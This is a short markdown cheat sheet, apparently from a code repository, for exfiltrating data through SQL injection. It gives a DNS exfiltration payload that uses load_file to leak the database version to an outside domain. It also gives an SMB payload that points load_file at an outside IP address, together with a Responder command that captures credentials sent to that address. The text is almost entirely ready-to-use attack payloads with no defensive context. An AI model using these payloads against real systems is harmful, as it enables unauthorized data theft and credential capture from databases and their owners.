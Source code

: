 #Exfiltration 


##DNS Exfiltation +++++++

admin' union select load_file(concat('\\\\',version(),'.23798bcn3749bf34.com\\test.txt')),2,3,4,5,6,7,8,9-- 

![dns](dns.png)

##SMB EXFIL ++++++++++

sudo ./Responder.py -I ens5 -wrf  

admin'union select load_file('\\\\157.175.42.81\\test'),2,3,4,5,6,7,8,9-- 

